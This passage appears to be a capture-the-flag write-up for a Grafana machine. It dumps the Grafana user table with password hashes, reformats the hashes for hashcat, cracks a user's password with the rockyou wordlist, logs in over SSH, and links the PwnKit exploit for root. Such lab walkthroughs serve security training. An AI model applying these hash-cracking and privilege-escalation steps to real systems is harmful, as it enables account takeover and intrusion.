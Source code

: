 
```
sqlite> select * from user;
1|0|admin|admin@localhost||7a919e4bbe95cf5104edf354ee2e6234efac1ca1f81426844a24c4df6131322cf3723c92164b6172e9e73faf7a4c2072f8f8|YObSoLj55S|hLLY6QQ4Y6||1|1|0||2022-01-23 12:48:04|2022-01-23 12:48:50|0|2022-01-23 12:48:50|0
2|0|boris|boris@data.vl|boris|dc6becccbb57d34daf4a4e391d2015d3350c60df3608e9e99b5291e47f3e5cd39d156be220745be3cbe49353e35f53b51da8|LCBhdtJWjl|mYl941ma8w||1|0|0||2022-01-23 12:49:11|2022-01-23 12:49:11|0|2012-01-23 12:49:11|0
```

Currently we can try to crack the hashes from the database.

# Cracking passwords
Hashes in Grafana are stored in an unusual format, this [article](https://vulncheck.com/blog/grafana-cve-2021-43798) explains how to prepare hashes for cracking.

##  Prepare hashes
```
sha256:10000:TENCaGR0SldqbA==:3GvszLtX002vSk45HSAV0zUMYN82COnpm1KR5H8+XNOdFWviIHRb48vkk1PjX1O1Hag=
sha256:10000:WU9iU29MajU1Uw==:epGeS76Vz1EE7fNU7i5iNO+sHKH4FCaESiTE32ExMizzcjySFkthcunnP696TCBy+Pg=
```

After using the program from the article, we have a hash format understandable by hashcat.

## Hashcat
```
hashcat -m 10900 hashes.txt /usr/share/wordlists/rockyou.txt
```

Boris's password is quite easy to crack.

# Connect to ssh
```
boris@ip-10-10-10-11:~$ ls
snap  user.txt
```
We can login to SSH with the broken password, we can start privilege escalation!

# Privilege escalation
To gain root access, I used [PwnKit](https://github.com/ly4k/PwnKit)
